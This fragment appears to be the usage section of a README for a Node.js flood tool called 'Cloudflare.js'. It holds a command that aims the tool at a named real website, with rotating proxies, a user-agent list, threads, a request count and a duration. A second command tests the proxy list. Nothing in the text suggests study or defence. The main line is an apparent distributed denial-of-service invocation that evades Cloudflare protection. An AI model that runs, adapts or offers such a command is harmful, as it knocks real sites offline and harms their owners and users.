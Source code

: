 ##  node Cloudflare.js --url https://guncritic.com --proxyfile proxys.txt --uafile ua.txt --threads 4 --requests 1000 --seconds 500

node proxy-test.js --proxyfile proxy-test.txt > results.txt
